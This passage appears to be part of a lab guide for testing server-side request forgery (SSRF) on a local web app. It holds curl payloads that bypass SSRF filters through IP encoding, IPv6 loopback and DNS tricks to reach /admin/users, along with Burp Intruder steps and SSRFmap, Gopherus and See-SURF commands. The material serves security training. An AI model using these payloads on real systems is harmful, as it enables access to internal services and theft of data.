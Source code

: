 - [ ] **Network Ranges**
  - [ ] `127.0.0.1` - Loopback
  - [ ] `10.0.0.0/8` - Private network
  - [ ] `172.16.0.0/12` - Private network
  - [ ] `192.168.0.0/16` - Private network
  - [ ] `fc00::/7` - IPv6 private

---

## 🔍 Detection Evasion

### Bypass Techniques
```bash
# IPv6 localhost
curl "http://localhost:3000/api/product-image?url=http://[::1]:3000/admin/users"

# Decimal IP
curl "http://localhost:3000/api/product-image?url=http://2130706433:3000/admin/users"

# Hex encoding
curl "http://localhost:3000/api/product-image?url=http://0x7f.0x0.0x0.0x1:3000/admin/users"

# URL shorteners (create shortened URL pointing to internal resource)
curl "http://localhost:3000/api/product-image?url=http://bit.ly/[shortened-internal-url]"

# DNS tricks
curl "http://localhost:3000/api/product-image?url=http://localhost.mydomain.com:3000/admin/users"
```

---

## 🚀 Automated Exploitation

### Burp Suite Configuration
1. Set target to `http://localhost:3000`
2. Use Intruder on `/api/product-image?url=§payload§`
3. Load payload list with internal IPs/ports
4. Monitor responses for different status codes/sizes

### SSRF Exploitation Tools
```bash
# SSRFmap
python3 SSRFmap.py -r request.txt -p url -m readfiles

# Gopherus (for generating gopher payloads)
python3 gopherus.py --exploit mysql

# See-SURF (SSRF scanner)
python3 see-surf.py -t http://localhost:3000
```

---